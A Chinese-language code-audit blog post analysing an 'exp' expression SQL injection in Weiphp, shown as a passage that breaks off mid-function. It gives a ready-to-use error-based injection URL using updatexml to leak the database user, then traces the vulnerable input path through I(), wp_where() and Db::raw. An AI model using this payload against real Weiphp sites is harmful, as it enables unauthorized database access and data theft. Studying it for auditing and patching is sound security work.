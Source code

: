 ```yaml
---
title: "Weiphp exp表达式注入"
date: 2019-12-11T10:06:42+08:00
draft: true
tags: ['php']
categories: ['代码审计']
---
```


和thinkphp3.2.3的exp注入类似。



## payload

```
http://php.local/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=) and updatexml(1,concat(0x7e,user(),0x7e),1) -- +
```

## 分析

\app\home\controller\Index::bind_follow()

![20191211101117](https://y4er.com/img/uploads/20191211101117.png)

uid直接通过`I()`获取

```php
<?php
function I($name, $default = '', $filter = null, $datas = null)
{
    return input($name, $default, $filter);
}
```

然后经过 `wp_where()` -> `where()` -> `find()`函数

```php
<?php
$info = M('user_follow')->where(wp_where($map))->find();
```

跟进 `wp_where()`

```php
<?php
function wp_where($field)
{
    if (!is_array($field)) {
        return $field;
    }

    $res = [];
    foreach ($field as $key => $value) {
        if (is_numeric($key) || (is_array($value) && count($value) == 3)) {
            if (strtolower($value[1]) == 'exp' && !is_object($value[2])) {
                $value[2] = Db::raw($value[2]);
            }
            $res[] = $value;
        } elseif (is_array($value)) {
            if (strtolower($value[0]) == 'exp' && !is_object($value[1])) {
                $value[1] = Db::raw($value[1]);
            }
            $res[] = [
                $key,
                $value[0],
```